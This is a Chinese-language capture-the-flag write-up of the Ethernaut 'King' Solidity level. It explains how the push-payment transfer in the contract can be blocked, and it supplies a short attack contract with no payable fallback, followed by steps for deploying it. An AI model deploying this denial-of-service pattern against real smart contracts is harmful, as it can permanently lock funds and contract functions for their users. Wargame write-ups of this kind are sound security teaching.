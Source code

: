 ```yaml
---
layout: post
title: King
tags: [ethernaut]
---
```


# King
关于合约push和pull方式的区别
```solidity
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

### 代码分析
```solidity
function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```
上述代码中，当需要交换king的时候，会向原来的king发送eth，然后将king交换给新的用户。注意`king.transfer(msg.value)`
只有2300的gas，如果原来的king为一个合约，并且没有fallback方法，或有fallback方法但执行的代码太多或恶意代码事，
那么它可以使该合约的交换king方法永远不能成功。

### 攻击合约
```solidity
pragma solidity ^0.4.18;


contract KingAttack {

  function doYourThing(address _target) public payable {
    if(!_target.call.value(msg.value)()) revert();
  }

  // OMG NO PAYABLE FALLBACK!!
}
```

### 攻击方法
1. 发布攻击合约
2. 调用攻击合约doYourThing(address)，同时转让>1eth（原king的eth数量为1eth）